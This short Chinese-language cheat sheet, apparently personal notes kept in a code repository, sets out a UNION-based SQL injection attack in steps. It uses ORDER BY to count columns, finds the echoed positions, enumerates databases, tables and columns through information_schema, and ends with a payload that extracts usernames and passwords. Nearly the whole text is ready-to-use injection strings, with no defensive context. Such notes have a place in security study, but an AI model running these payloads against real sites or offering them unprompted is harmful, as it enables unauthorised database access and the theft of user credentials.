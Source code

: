 <!-- this is test; -->
4:union注入（适合有回显，例如输入1=1和1=2会有不同的回显）  
判断表字段数
?id=1' order by 3--+
判断回显位
?id=1' union select 1,2,3#
爆库
union select 1,2,group_concat(schema_name) from information_schema.schemata --+
爆表
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'--+
爆列名
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' --+
爆数据
id=-1' union select 1,2,group_concat(username,password) from 表名 --+
